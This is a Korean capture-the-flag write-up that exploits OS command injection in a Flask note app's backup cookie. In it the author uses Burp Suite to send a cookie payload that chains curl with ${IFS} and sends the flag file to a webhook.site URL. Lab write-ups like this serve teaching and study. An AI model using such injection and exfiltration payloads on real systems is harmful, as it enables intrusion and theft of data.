





# B2 · Simple Note Manager

### 1. VM에 접속한다

문제 페이지에는 노트를 생성·수정·삭제하고 백업하는 기능이 있다. `Create`에서 내용 `1`로 노트를 하나 만든다. 노트가 없으면 백업 기능이 `404`를 반환한다.

### 2. 코드 분석 — 백업 쿠키가 쉘 명령어로 실행되는 과정

**① `/backup_notes`에 GET 요청을 보내면 백업용 쿠키를 발급한다.**

```python
@app.route('/backup_notes', methods=['GET'])
def get_backup_notes():
    if len(notes) == 0:
        abort(404)
    page = render_template('backup_notes.html')
    resp = make_response(page)
    resp.set_cookie('backup-timestamp', f'{time.time()}')
    return resp
```

`backup-timestamp`는 원래 백업 파일명에 사용할 시간 값이다. 백업 페이지에 접속할 때 응답의 `Set-Cookie` 헤더로 브라우저에 저장된다.

**② `/backup_notes`의 POST 요청에서는 쿠키를 읽어 백업 함수로 전달한다.**

```python
@app.route('/backup_notes', methods=['POST'])
def post_backup_notes():
    if len(notes) == 0:
        abort(404)
    backup_timestamp = request.cookies.get('backup-timestamp', f'{time.time()}')
    if not isinstance(backup_timestamp, str):
        abort(400)
    backup_notes(backup_timestamp)
    return redirect(url_for('get_index'))
```

`request.cookies.get()`은 브라우저가 보낸 값을 사용한다. `str`인지 확인할 뿐 쉘 특수문자는 걸러내지 않는다.

**③ 쿠키 값이 `shell=True` 명령어에 그대로 들어간다.**

```python
def backup_notes(timestamp):
    with lock:
        with open('./tmp/notes.tmp', 'w') as f:
            f.write(repr(notes))
        subprocess.Popen(f'cp ./tmp/notes.tmp /tmp/{timestamp}', shell=True)
```

`timestamp`를 쉘 명령어 문자열에 직접 붙이므로 `&&` 같은 명령어 구분자를 넣으면 원래의 `cp` 명령 뒤에 추가 명령어가 실행될 수 있다. **취약점은 OS Command Injection이다.**

### 3. Burp Suite에서 백업 요청을 잡는다

Burp Suite의 **Proxy → Intercept → Open browser**에서 문제 VM에 접속하고, `Backup` 버튼을 누른다. **Proxy → HTTP history**에서 `GET /backup_notes`의 응답을 확인하면 `Set-Cookie: backup-timestamp=...`가 들어 있다.

백업 페이지의 `Back up` 버튼을 누른 뒤 `POST /backup_notes` 요청을 찾아 우클릭 → **Send to Repeater**를 선택한다.



 HTTP history의 조회 창에서는 요청을 수정할 수 없고, **Repeater의 Request**에서 수정해야 한다.

### 4. Repeater에서 Cookie 변경

`POST /backup_notes` 요청의 기존 쿠키를 공격용 값으로 바꾼다.

| 수정 전 — 정상 쿠키 | 수정 후 — 조작한 쿠키 |
| :---: | :---: |
|  |  |

```http
POST /backup_notes HTTP/1.1
Host: host3.dreamhack.games:16318
Cookie: backup-timestamp=123456&&curl${IFS}-G${IFS}--data-urlencode${IFS}data@flag${IFS}https://webhook.site/6379418b-6f93-4704-a848-cde11c1b5f98
Content-Length: 0
```

- `123456&&` : 먼저 실행된 `cp`가 성공하면 뒤에 있는 명령을 실행한다.
- `${IFS}` : 쉘에서 공백 대신 사용하는 구분 문자다.
- `-G --data-urlencode data@flag` : 현재 작업 디렉터리의 `flag` 파일 내용을 인코딩해 GET 요청의 `data` 파라미터로 전송한다.

`data`는 미리 존재하는 파라미터가 아니라 여기서 지정한 이름이다. `flag`는 읽을 파일명이다.

### 5. Webhook.site에서 FLAG 확인

Repeater에서 **Send**를 누른 뒤 Webhook.site를 확인한다. 실제로 GET 요청이 수신되었고, **Query strings**의 `data` 항목에 `DH{...}` 형태로 FLAG가 표시됐다.



**취약점 원인:** 사용자가 변경할 수 있는 `backup-timestamp` 쿠키를 검증 없이 `subprocess.Popen(..., shell=True)`에 삽입하여 OS Command Injection이 발생했다.
